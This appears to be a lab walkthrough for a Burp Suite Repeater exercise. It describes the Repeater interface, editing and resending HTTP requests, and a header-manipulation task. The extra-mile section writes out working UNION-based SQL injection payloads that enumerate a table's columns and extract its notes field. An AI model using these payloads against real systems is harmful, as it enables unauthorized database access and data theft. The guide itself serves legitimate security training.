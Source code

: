 # Burp Suite: Repeater

## Task 1: Introduction

Welcome to the Burp Suite Repeater module guide. In this document, we'll cover advanced functionalities of Burp Suite, specifically focusing on the Repeater module. If you haven't completed the basics, please refer [here](https://github.com/yourusername/burp-basics).

---

## Task 2: What is Repeater?

Burp Suite Repeater allows for editing and resending HTTP requests, which makes it perfect for detailed, manual testing of web endpoints.

### Repeater Interface:

![Repeater Interface](https://github.com/user-attachments/assets/9ca40128-05ff-418e-8f9c-cf23ec292f83)

1. **Request List:** Track and manage multiple requests.
2. **Request Controls:** Send, cancel, or navigate request history.
3. **Request and Response View:** Edit requests and inspect server responses.
4. **Layout Options:** Customize the display of request and response.
5. **Inspector:** Intuitive breakdown and editing of request components.
6. **Target:** URL or IP destination of the request.

---

## Task 3: Basic Usage

Typically, you'll capture requests through the Proxy and forward them to Repeater for further testing.

1. Capture a request via Proxy and send it to Repeater:

![Initial Capture](https://github.com/user-attachments/assets/934417f4-7ed8-4c78-8cbb-332b10f2c1c1)

2. Click "Send" and inspect the response:

![Response Received](https://github.com/user-attachments/assets/81650379-5b5c-48a3-aca4-87d10db60a53)

3. Edit headers (e.g., set "Connection: open") and resend:

![Edited Header](https://github.com/user-attachments/assets/36957c1d-bdc7-42ec-9f7d-f59f8db40081)

---

## Task 4: Message Analysis Toolbar

Burp Suite provides different viewing options for requests and responses:

![Viewing Options](https://github.com/user-attachments/assets/e8eb2c0e-aea4-4793-a5eb-1fc7e1b53f28)

* **Pretty:** Default readable format.
* **Raw:** Direct server response.
* **Hex:** Byte-level inspection.
* **Render:** Visual representation as in a web browser.

---

## Task 5: Inspector

Inspector provides an easy way to analyze and modify request elements:

![Inspector Overview](https://github.com/user-attachments/assets/a2b2f4d5-ecbf-4936-a6fe-4ebdfae9e7d2)

You can edit attributes such as HTTP methods, headers, cookies, and parameters easily:

![Inspector Request Attributes](https://github.com/user-attachments/assets/36a5cae9-bc9f-47e2-8d34-4d04a96fd382)

---

## Task 6: Practical Example

Use Repeater to test header manipulation:

1. Capture request to your target (e.g., http\://MACHINE\_IP/).
2. Add header `FlagAuthorised: True`:

```http
GET / HTTP/1.1
Host: MACHINE_IP
User-Agent: Mozilla/5.0
Accept: text/html
FlagAuthorised: True
```

Send and inspect changes.

---

## Task 7: Challenge

Navigate to `/products/` endpoint, find numeric endpoints like `/products/3`. Validate proper integer handling by manipulating endpoint URLs.

---

## Task 8: Extra-mile Challenge (SQL Injection)

Identify and exploit a Union SQL Injection on `/about/ID` endpoint to retrieve hidden notes:

1. Confirm SQLi by injecting an apostrophe (`'`) after ID and check for errors.
2. Use UNION queries to enumerate column names:

```sql
/about/0 UNION ALL SELECT group_concat(column_name),null,null,null,null FROM information_schema.columns WHERE table_name="people"
```

![Enumerated Columns](https://github.com/user-attachments/assets/b13ae1cd-a71b-4cca-9ac6-c8e31a67a42a)

3. Extract sensitive data:

```sql
/about/0 UNION ALL SELECT notes,null,null,null,null FROM people WHERE id = 1
```

![Extracted Data](https://github.com/user-attachments/assets/93765c1d-a2bb-4b9d-88d3-97bda1846068)

---

## Task 9: Conclusion

You've successfully learned advanced Repeater functionalities within Burp Suite. Next, explore automated request testing with Burp Suite Intruder.

Good luck!
